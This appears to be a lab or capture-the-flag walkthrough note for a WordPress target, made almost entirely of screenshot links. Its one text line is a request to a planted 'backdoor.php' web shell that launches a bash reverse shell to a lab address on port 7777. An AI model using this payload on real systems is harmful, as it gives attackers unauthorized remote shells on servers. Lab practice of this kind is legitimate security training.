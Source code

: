 ![](Pasted%20image%2020250227120542.png)

![](Pasted%20image%2020250227120705.png)

![](Pasted%20image%2020250227120832.png)

![](Pasted%20image%2020250227121259.png)

![](Pasted%20image%2020250227121856.png)

![](Pasted%20image%2020250227121919.png)

![](Pasted%20image%2020250227133106.png)

![](Pasted%20image%2020250227133547.png)

![](Pasted%20image%2020250227133609.png)



http://escolares.dl/wordpress/wp-admin/user/backdoor.php?cmd=/bin/bash+-c+%22bash+-i+%3E%26+/dev/tcp/172.17.0.1/7777+0%3E%261%22

![](Pasted%20image%2020250227134332.png)

![](Pasted%20image%2020250227134300.png)

![](Pasted%20image%2020250227134437.png)
![](Pasted%20image%2020250227134542.png)

![](Pasted%20image%2020250227134701.png)



